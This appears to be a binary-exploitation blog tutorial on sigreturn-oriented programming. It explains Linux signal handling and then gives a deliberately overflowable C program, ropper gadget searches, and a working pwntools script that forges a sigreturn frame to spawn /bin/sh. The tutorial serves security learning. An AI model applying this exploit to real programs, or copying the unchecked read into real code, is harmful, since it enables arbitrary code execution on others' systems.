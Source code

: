 ```yaml
---
title: "Sig-Return Oriented Programming (SROP)"
date: 2022-03-06T20:12:00+03:00
toc: false
images:
tags:
  - pwn
  - BinaryExploitation
---
```



This is a yet another binary exploitation attack  that is somewhat similar to
return-oriented-programming (ROP) and to understand how this works, we first need 
to understand how C signals work. 

### Signals in C

Each signal has a current disposition and this is used to determine 
how a process behaves when it is delivered a signal. The following
is used to specify the default disposition for each signal.

	- Term : The default action is to terminate the process

	- Ign: The default action is to ignore the process	
	
	- Core: This is used to ignore the process and dump core
	
	(core dump file): Some of the signals, their default actions is 
	to terminate and produce a core dump file. This is a file that contains 
	an image of the process memory at the time of termination. This image
	can be used in a debugger to inspect the state of the program at the time 
	that it was terminated. 

	- Stop: This is used to stop the process	
	- Cont: This is used to continue the process if it is currently stopped

A process can therefore change the disposition of a signal using `sigaction()` and 
`signal()`. A signal handler is a user-defined function that is executed when 
a signal occurs and its stack frame is created on the current processes' stack. It is also possible 
to make the signal handler use an alternate stack using the `sigalstack()` syscall 
as described in its man page.


The following are some of the actions that take place during the execution 
of sighandlers _(user defined functions)_. When there is a transition from kernel-mode to user-mode execution _(eg.
return from a syscall)_, the kernel checks if there is a pending 
unblocked signal for which the process has established a signal handler.

If there is a pending signal, the following takes place:

> _(between the time when a signal is generated and when a signal is delivered
	this is where we say that this is a pending signal)._

- [x] The kernel performs the necessary preparatory steps for the 
	execution of the signal handler.

- [x] The signal is remove from the pending signals.

- [x] If the signal was installed via `sigaction()` and the flag `SA_ONSTACK` was set, 
      and an alternate stack is defined using `sigaltstack()` a new stack for the signal 
is then installed in the specified memory region.

- [x] Otherwise, the kernel will construct a frame for the sighandler on our current 
stack and will set the program counter `rip` for the process to 
point to the first instruction of the sighandler function and 
configures the return address for that function to point 
to a piece of user-space code that is called the `signal trampoline`
	
>_This is code that is used to transfer control from the kernel 
back to user mode when a signal that had a handler installed is sent 
to a process (signal trampoline)._

	
- [x] The kernel now passes control back to the user-space and this is 
where execution will start and the sighandler will be called and its code
block executed.
	
- [x] When the signal handler returns, it passes control back to the signal 
trampoline code and this now calls `sigreturn()` a syscall that uses the 
information in the stack frame that was created by the kernel in `(step 1)` to restore
the process back to how it was before the sighandler was called.
	
When `sigreturn()` compeletes, the kernel then transfers control back to the 
userspace and the process now recommenses its execution back to 
the point where it was interrupted by the signal handler.


The following is a quick `C` snippet that is used to showcase how this works. We 
are going to use a signal disposition that will continue after execution. 


```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>

void sighandler(int signum){
	puts("This will be called when the sighandler executes");
}

int main(int argc, char **argv){
	struct sigaction act;
	act.sa_handler = &sighandler;
		
	sigaction(SIGCONT, &act, NULL);
	kill(getpid(), SIGCONT);
	
	puts("I will be printed after execution");
	return 0;
}

```

Compiling and running the program, we can view the syscalls during execution using the 
`strace` command, and from below before the `puts()` function is called we can see 
`rt_sigreturn` syscall that returns the function back to where it commenced resulting
to the output `I will be printed after execution`

Using `gdb` you can also set a breakpoint at `ret` opcode of the sighandler function and 
examine the return address. If this was a normal function, the return address would
we a function address, lets say an address somewhere at `main()` but this is a stack 
address, showing evidence that the function returned to a `signal trampoline`.

### Exploitation 

From what we have learned we can therefore use this to our advantage. This attack will 
work by putting a forged `sigcontext struct` on the stack. This is a data structure that is 
initiated by the kernel, when a sighandler is executed and it contains these 
registers, pointers, flags etc.. used for restoration. After creating the forged `sigcontext structure`, we 
overwrite the return address with the location of our syscall gadget `rt_sigreturn()`.

After execution, the process will try to go back to its intial state trusting 
the values from the sigcontext, restoring them and giving us control of the program
(instruction and stack pointer).

The following are some of the conditions for an SROP attack:

- [x] A buffer overlow vulnerablilty, to control the instruction pointer.
- [x] Enough stack space to place `sigcontext struct` that is 128 bytes.
- [x] A syscall gadget to execute `rt_sigreturn` syscall.

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

const char *binsh = "/bin/sh"; 

// gcc -o srop srop.c -no-pie -fno-stack-protector (compile flags)

void syscall_function(){
	__asm__("syscall; ret"); // syscall gadget
}

void set_rax(){
	__asm__("movl $0xf, %eax; ret;");
}

int main(void){	
	char buffer[16];
	read(0, buffer, 500); // buffer overflow
	return 0;
}
```

From the above snippet we see that the binary meets all the conditions 
that are required for an srop attack. Its now time for exploitation. We will 
be using a simple python script for this.

1. First we need to locate our `syscall ret` gadget and `mov eax, 0xf` gadget.

```bash
ropper --file srop --search "syscall; ret" && ropper --file srop --search "mov eax, 0xf; ret"
```

2. Second we find our offset located at `24` and using a simple 
python script we write our payload. Python `pwntools` comes coupled with 
a `sigreturnFrame()` that is used to model out `sigcontext struct`.

```python
#! /usr/bin/python3

from pwn import *

filename = "./srop"

io = process(filename)
elf = ELF(filename)
context.clear(arch="amd64")

syscall_ret = 0x401126
mov_eax = 0x401130
binsh = 0x00402004

def exploit():
        payload = b"A"*24 # fill the buffer to saved RIP
        payload += p64(mov_eax)
        payload += p64(syscall_ret) # call rt_sigreturn()

        #construct sigcontext frame and control the values of out registers
        frame = SigreturnFrame(kernel="amd64")
        frame.rax = constants.SYS_execve # set rax to execve syscall
        frame.rdi = binsh # set rdi to /bin/sh
        frame.rip = syscall_ret

        payload += bytes(frame)
        return payload
 
def main():
        io.sendline(exploit())
        io.interactive()

if __name__ == "__main__":
        main()


```

From the above exploit we get a full bash shell. There are more complex ways
to chain `srop` attack but this all depends with your creativity.

> Please feel free to contact me if you have any additional information or any question :v:.
### References

- [x] https://amriunix.com/post/sigreturn-oriented-programming-srop/




